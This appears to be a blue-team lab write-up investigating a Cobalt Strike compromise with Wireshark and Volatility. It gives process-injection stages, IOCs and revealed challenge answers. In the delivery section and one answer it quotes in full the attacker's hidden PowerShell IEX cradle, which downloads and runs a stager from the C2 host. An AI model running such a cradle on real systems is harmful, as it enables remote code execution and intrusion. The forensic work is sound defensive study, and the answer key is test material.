## Scenario

One of our internal systems has been compromised and is communicating with a remote host. We need to investigate the extent of the attack and what actions were taken on the victim system. We're provided with a network capture (pcap) and a memory dump to reconstruct the full attack chain.

---

## Investigation

### Identifying Attacker and Victim — Wireshark Conversations

The first step is loading the pcap into Wireshark and reviewing the conversation view via **Statistics → Conversations → TCP tab**, sorted by bytes. This surfaces sustained connections that stand out from normal traffic.


Two internal IPs dominate the traffic — `192.168.100.100` and `192.168.100.97`. Multiple regular, small byte-count connections on port 80 between these hosts with near-identical packet counts is textbook C2 beacon regularity. `192.168.100.100` is our victim and `192.168.100.97` is the attacker's C2 server.

---

### Identifying the Framework — Cobalt Strike Beacon

Filtering for HTTP traffic from the attacker:

```bash
ip.src == 192.168.100.97 && http
```

Following one of the TCP streams immediately reveals the beacon fingerprint:


Several indicators confirm this is a **Cobalt Strike** beacon:

- `GET /en_US/all.js` — classic CS malleable C2 profile URI
- A long base64-encoded **Cookie header** carrying encrypted beacon data — CS's signature exfiltration method
- User-Agent `Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)` — default CS User-Agent
- `Cache-Control: no-cache` — consistent CS malleable C2 indicator
- `Content-Type: application/octet-stream` — response carrying shellcode

The beacon is communicating over **HTTP on port 80**.

---

### Delivery — Scripted Web Delivery and PowerShell Cradle

Filtering for outbound GET requests from the victim:

```bash
ip.src == 192.168.100.100 && http.request.method == "GET"
```


A GET request to `http://192.168.100.97:80/WindowsUpdateService` stands out — a CS-style fake Windows service name used as the staging URL. Following that TCP stream shows the server response: a massive base64-encoded blob delivered via:

```powershell
$s=New-Object IO.MemoryStream([Convert]::FromBase64String("..."))
```

This is the CS reflective DLL injection loader — the payload is **PowerShell**. The delivery method is **Scripted Web Delivery (S)**, Cobalt Strike's built-in staged delivery module.

Pivoting to Volatility confirms the exact download cradle used:

```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.cmdline
```



````bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.cmdline | grep "powershell\|rundll32\|explorer"
```



The full PowerShell command:
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.100.97:80/WindowsUpdateService'))"
````

The IEX download string is the malicious command, pulling the stager directly into memory without touching disk.

---

### Process Injection Chain — Four Stage Attack

Running the process tree reveals the full attack chain:

```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.pstree
```



The chain is clear:
```
explorer.exe (1564)
  └─ powershell.exe (3976)     [Stage 1 — IEX download cradle]
       └─ rundll32.exe (2584)  [Stage 2 — reflective DLL injection]
vmtoolsd.exe (1764)            [Stage 3 — injected beacon host]
rundll32.exe (208)             [Stage 4 — active C2 beacon]
````

- **Stage 1 (3976)** — `powershell.exe` spawned by `explorer.exe`, executes the IEX download cradle
- **Stage 2 (2584)** — `rundll32.exe` spawned by the PowerShell process, loads the reflective DLL
- **Stage 3 (1764)** — `vmtoolsd.exe`, a legitimate VMware tools process that the beacon injected into for stealth
- **Stage 4 (208)** — `rundll32.exe` actively beaconing back to C2

Confirming Stage 4 with netscan:

```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.netscan
```


PID 208 (`rundll32.exe`) shows a closed TCP connection to `192.168.100.97:80` — confirming it as the active beacon process.

Checking for injected memory regions:

```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.malfind | grep -i "PAGE_EXECUTE_READWRITE"
```


`PAGE_EXECUTE_READWRITE` memory regions in legitimate processes confirm shellcode injection — the beacon is living inside trusted processes to evade detection.

---

### Unique Machine ID — Beacon ID from POST Traffic

This question initially sent me down a rabbit hole. Assuming "unique id" meant the Windows MachineGuid, I went looking in the registry via Volatility:

```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.hivelist
```



```bash
python3 vol.py -f ../../Investigation\ Files/memdump.raw windows.registry.printkey --offset 0xf8a0007b010 --key "Microsoft\Cryptography"
```


This does successfully extract the Windows MachineGuid from the registry hive — a useful technique worth knowing for future investigations. However it wasn't the answer here.

The actual unique ID is the **Cobalt Strike beacon ID** — assigned by the CS team server to identify this specific victim. It's transmitted in POST requests from the victim back to C2. Filtering for outbound POST traffic:

```
ip.src == 192.168.100.100 && http.request.method == "POST"
```


The POST body contains `id=1118316996` — the unique beacon ID for this machine as registered with the CS team server. This is how the operator tracks active beacons in the CS interface, each victim gets a unique numeric ID derived from a hash of system properties.

---

## Attack Chain Summary
```
CS Team Server (192.168.100.97)
  → Scripted Web Delivery → IEX PowerShell cradle (PID 3976)
    → Reflective DLL load via rundll32 (PID 2584)
      → Injection into vmtoolsd.exe (PID 1764)
        → Beacon running in rundll32 (PID 208)
          → C2 beaconing HTTP:80 → id=1118316996
````

---

## IOCs

|Type|Value|
|---|---|
|IP — Attacker C2|`192[.]168[.]100[.]97`|
|IP — Victim|`192[.]168[.]100[.]100`|
|URL — Staging|`hxxp[://]192[.]168[.]100[.]97:80/WindowsUpdateService`|
|Beacon ID|`1118316996`|
|Process — Stage 1|`powershell.exe` PID `3976`|
|Process — Stage 2|`rundll32.exe` PID `2584`|
|Process — Stage 3|`vmtoolsd.exe` PID `1764`|
|Process — Stage 4|`rundll32.exe` PID `208`|


---

<div class="qa-item"> <div class="qa-question-text">What is the Attacker IP Address?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">192.168.100.97</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the victim IP Address?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">192.168.100.100</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the name of the tool/attack framework used to attack the victim?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">colbalt strike</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you identify the beacon type (protocol used) and the port?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">HTTP:80</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you identify the delivery type?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Scripted Web Delivery (S)
</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you identify the payload type?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">powershell</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you identify the malicious URL?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">http://192.168.100.97:80/WindowsUpdateService</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the Malicious PowerShell command to download the file from the URL in the previous question?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">"IEX ((new-object net.webclient).downloadstring('http://192.168.100.97:80/WindowsUpdateService'))"</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Provide the Stage 1 Process ID</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">3976</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Provide the Stage 2 Process ID</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">2584</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Provide the Stage 3 Process ID</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">1764</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Provide the Stage 4 Process ID</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">208</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the unique id for the victim machine?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">1118316996</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>